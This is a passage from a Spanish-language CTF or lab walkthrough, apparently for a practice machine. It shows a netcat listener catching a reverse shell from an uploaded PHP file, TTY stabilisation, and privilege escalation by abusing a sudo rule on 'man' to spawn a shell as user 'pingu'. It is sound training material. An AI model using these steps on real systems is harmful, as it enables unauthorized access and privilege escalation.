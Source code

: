 Antes de ejecutar este archivo, es momento de ponerse a la escucha con "netcat" por el puerto 4444 como hemos dicho en la reverse:
```
nc -nlvp 4444
```
Ahora, ejecutamos el archivo ".php" desde la pagina web, y obtenemos la reverse en nuestra terminal. Perfecto.

Antes de seguir, vamos a hacer el tratamiento de la TTY, asi que para ello escribimos COMO SIEMPRE:
```
script /dev/null -c bash
Ahora presionamos (CTRL + Z)
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
Y listo, tratamiento de la TTY hecha. Ya podemos seguir con la escalada de privilegios. 

Lo primero de todo seria hacer un "whoami" para ver que usuario somos.
```
www-data@2f0c6287c77b:/$ whoami
www-data

www-data@2f0c6287c77b:/$
```
Antes de seguir, vamos a configurar las lineas y las columnas de la terminal para que no nos de fallos, que en mi caso seria:
```
stty rows 46 columns 166
```
Vale, una vez hecho esto, volvemos a la maquina y es momento ahora de probar a hacer la escalada de privilegios, asi que empezaremos por "sudo -l" a ver si hay suerte, y vemos lo siguiente:
```
www-data@2f0c6287c77b:/$ sudo -l
Matching Defaults entries for www-data on 2f0c6287c77b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 2f0c6287c77b:
    (pingu) NOPASSWD: /usr/bin/man
    
www-data@2f0c6287c77b:/$ 
```
Perfecto, vemos que el usuario "pingu" puede ejecutar el binario "man" sin credenciales, por lo que vamos a buscar bien en "https://gtfobins.github.io", o en mi caso, con "searchbins" como seria el uso de dicho binario para obtener privilegios.
```
searchbins -b man -f sudo
```
Y obtenemos lo siguiente:
```
sudo man man
!/bin/sh
```
Asi que escribimos con la ruta absoluta:
```
www-data@2f0c6287c77b:/$ sudo -u pingu /usr/bin/man man
```
Y vemos el manual de "man", por lo que al final, pondremos "!/bin/sh", viendo que el usuario cambiaria a "pingu":
```
MAN(1)                        Manual pager utils                        
MAN(1)

NAME
       man - an interface to the system reference manuals
```